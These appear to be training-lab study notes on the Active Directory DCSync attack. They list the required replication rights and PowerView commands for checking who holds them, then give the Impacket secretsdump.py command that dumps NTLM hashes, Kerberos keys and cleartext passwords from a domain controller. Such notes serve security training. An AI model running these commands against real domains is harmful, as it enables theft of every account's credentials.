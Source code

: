 
### Required Rights for DCSync
- **Account must have at least:**
  - `Replicating Directory Changes` (DS-Replication-Get-Changes)
  - `Replicating Directory Changes All` (DS-Replication-Get-Changes-All)
- **Who has these by default?**
  - Domain Admins
  - Enterprise Admins
  - Domain Controllers
- **Other users/groups** may be delegated these rights (misconfiguration = risk).

---

### How to Check DCSync Rights

#### 1. Get User SID
```powershell
$sid = (Get-DomainUser -Identity adunn).objectsid
```

#### 2. Check ACLs on Domain Object
```powershell
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs |
  ? { $_.ObjectAceType -match 'Replication-Get' } |
  ? { $_.SecurityIdentifier -eq $sid } |
  select AceQualifier, ObjectDN, ActiveDirectoryRights, SecurityIdentifier, ObjectAceType
```
- **Look for:**
  - `DS-Replication-Get-Changes`
  - `DS-Replication-Get-Changes-All`

#### Example Output
```
AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : ...-1164
ObjectAceType         : DS-Replication-Get-Changes
...
ObjectAceType         : DS-Replication-Get-Changes-All
```

---

### DCSync Attack: Step-by-Step

#### **A. From Linux (Impacket secretsdump.py)**
1. **Command:**
   ```bash
   secretsdump.py -outputfile <prefix> -just-dc DOMAIN/user@DC_IP
   # Example:
   secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5
   ```
2. **What it does:**
   - Connects to DC as the user
   - Requests replication data
   - Dumps NTLM hashes, Kerberos keys, and (if present) cleartext passwords
3. **Files created:**
   - `<prefix>.ntds` (NTLM hashes)
   - `<prefix>.ntds.kerberos` (Kerberos keys)
   - `<prefix>.ntds.cleartext` (cleartext passwords, if reversible encryption enabled)
